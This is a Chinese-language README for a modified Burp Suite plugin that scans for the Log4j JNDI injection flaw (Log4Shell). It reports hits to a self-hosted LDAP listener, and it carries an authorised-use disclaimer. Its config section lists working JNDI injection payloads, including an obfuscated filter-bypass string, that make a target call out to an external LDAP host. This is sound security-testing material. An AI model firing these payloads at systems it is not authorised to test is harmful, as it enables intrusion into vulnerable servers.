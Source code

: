 # log4jScan_Modify

# 免责声明

**本项目仅面向合法授权的企业安全建设行为，在使用本项目进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**

**如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。**

**在使用本项目前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。**

**除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要使用本项目。**

**您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。**

![](images/burp.png)

**本插件修改自：https://github.com/pmiaowu/log4j2Scan/commit/d160bf2349cb2f423300469a48de53c75a8031ec**

**根据原插件DnsLogCn模块的判定逻辑，修改为对接 [JNDIMonitor [一个LDAP请求监听器，摆脱dnslog平台]](https://github.com/r00tSe7en/JNDIMonitor) 的`api2=all`接口使用。**

插件详情及编译方法参考：https://github.com/pmiaowu/log4j2Scan

# 插件使用

## 0x01 启动JNDIMonitor监听

参考：https://github.com/r00tSe7en/JNDIMonitor

## 0x02 修改和编译log4jScan_Modify插件

1）下载 `log4jScan_Modify` 源码

2）需要修改`log4j2Scan_modify\src\main\java\burp\DnsLogModule\ExtensionMethod\LdapLogCn.java`中的`ip:port`为`JNDIMonitor`监听的`ip`和`port`

```java
    private String dnslogDomainName = "http://ip:port/?api2=all"; //JNDIMonitor监听http的api2接口
    private String temporaryDomainName = "ip:port"; //JNDIMonitor监听ldap的接口
```

3）`config.yml`默认已经配好，由于对接的是`ldap`监听器，所以已经把不相关的其他协议`payload`注释掉了，如果还有其他的`ldap bypass payload` 可以自己手动加进去。

```yaml
#- "${jndi:dns://dnslog-url/t}"
#- "%24%7Bjndi%3Adns%3A%2F%2Fdnslog-url%2Ft%7D"
- "${jndi:ldap://dnslog-url/t}"
#- "${jndi:rmi://dnslog-url/t}"
- "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://dnslog-url/t}"
#- "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dnslog-url/t}"
```

4）修改完成后就可以开始编译了，生成的插件文件在如下目录。

```
log4j2Scan_modify\target\log4j2Scan
 -/resources/config.yml
 -log4jScan_modify.jar
```

5）开始被动检测即可，可以看到检测日志。

![](images/burp2.png)

# 感谢

@pmiaowu

@melon

![](https://starchart.cc/r00tSe7en/log4jScan_Modify.svg)
